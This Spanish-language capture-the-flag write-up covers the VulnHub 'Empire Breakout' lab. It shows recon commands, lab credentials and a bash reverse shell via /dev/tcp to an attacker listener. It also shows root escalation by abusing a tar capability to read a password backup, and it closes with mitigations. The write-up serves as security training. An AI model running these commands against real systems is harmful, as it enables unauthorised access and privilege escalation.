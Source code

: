 # **CTF EMPIRE BREAKOUT**
OBJETIVO: 192.168.131.129 (Empire Breakout) <br>
 <br>
<div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>
 <br>
## SECUENCIA DE ATAQUE
 <br>
### FASE 1: PREPARACIÓN 
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub <br>
ping -c 4 192.168.131.129  # Verificación de conectividad <br>
Resultado: Objetivo accesible. <br>
 <br>
### FASE 2: RECONOCIMIENTO
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129 <br>
Puertos identificados: <br>
•	80/tcp - Apache httpd (página web) <br>
•	139/tcp - Samba smbd 4.6.2 <br>
•	445/tcp - Samba smbd 4.6.2 <br>
•	10000/tcp - MiniServ 1.981 (Webmin) <br>
•	20000/tcp - MiniServ 1.830 (Usermin) <br>
 <br>
### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129 <br>
•	Página Apache por defecto encontrada <br>
•	Inspección código fuente HTML <br>
 <br>
Extracción de credenciales: <br>
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded --> <br>
•	Código Brainfuck localizado al final del HTML <br>
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3 <br>
 <br>
echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro <br>
 <br>
Enumeración de usuarios: <br>
enum4linux -a 192.168.131.129 <br>
Usuario identificado: cyber <br>
 <br>
### FASE 4: ACCESO INICIAL
 <br>
Autenticación: <br>
•	Panel Usermin: https://192.168.131.129:20000 <br>
•	Credenciales: cyber / .2uqPEfj3D<P'a-3 <br>
•	ACCESO CONCEDIDO <br>
 <br>
Primera flag: <br>
ls          # Exploración directorio <br>
cat user.txt # Flag user obtenida <br>

### FASE 5: SHELL REVERSA
Preparación listener: <br>
ifconfig                    # IP local: 192.168.0.11 <br>
nc -lvp 443                # Listener puerto 443 <br>

Ejecución desde Command Shell del panel: <br>
bash -i >& /dev/tcp/192.168.0.11/443 0>&1 <br>
Shell reversa establecida como usuario cyber <br>
 <br>
### FASE 6: ESCALADA DE PRIVILEGIOS
 <br>
Enumeración de privilegios: <br>
sudo -l                     # Sin resultados <br>
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep <br>
 <br>
Identificación objetivo: <br>
cd /var/backups <br>
ls -la                     # Archivo: .old_pass.bak (propiedad root) <br>
 <br>
Explotación capabilities: <br>
cd /home/cyber <br>
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities <br>
tar -xvf clave.tar                              # Extracción <br>
cd var/backups <br>
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h <br>
 <br>
Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h <br>
script /dev/null -c bash   # Estabilización shell <br>
cd /root <br>
cat root.txt              # Flag root obtenida <br>
 <br>
## VULNERABILIDADES CRÍTICAS EXPLOTADAS
 <br>
### CREDENCIALES EN CÓDIGO FUENTE <br>
•	Vector: Contraseña Brainfuck en HTML <br>
•	Impacto: Acceso directo a panel administrativo <br>
•	Criticidad: MÁXIMA <br>
 <br>
### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar <br>
•	Impacto: Lectura arbitraria de archivos sistema <br>
•	Criticidad: ALTA <br>
 <br>
### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak <br>
•	Impacto: Escalada directa privilegios root <br>
•	Criticidad: MÁXIMA <br>
 <br>
### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones <br>
•	Impacto: Superficie ataque administrativa <br>
•	Criticidad: MEDIA <br>
 <br>
## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web <br>
Enumeración: enum4linux, decode.fr <br>
Acceso: Panel web Usermin <br>
Persistencia: Netcat (shell reversa) <br>
Escalada: getcap, tar (capabilities) <br>
 <br>
## MEDIDAS DE MITIGACIÓN
 <br>
### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML <br>
•	Remover capability CAP_DAC_READ_SEARCH del binario tar <br>
•	Eliminar archivo /var/backups/.old_pass.bak <br>
•	Cambiar contraseña root inmediatamente <br>
 <br>
### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP <br>
•	Auditar todos binarios con capabilities especiales <br>
•	Revisar ubicaciones backup archivos sensibles <br>
 <br>
### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos <br>
•	Configurar monitoreo accesos administrativos <br>
•	Establecer proceso revisión código fuente <br>
 <br>
## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt <br>
•	Flag Root: Capturada desde /root/root.txt <br>
•	Credenciales: Usuario 'cyber' y contraseña root documentadas <br>
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/ <br>
 <br>
## EVALUACIÓN
•	TIEMPO: 45 minutos <br>
•	DIFICULTAD: Baja <br>
•	DETECCIÓN: No <br>
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras. <br>
 <br>
## MV
https://www.vulnhub.com/entry/empire-breakout,751/ <br>
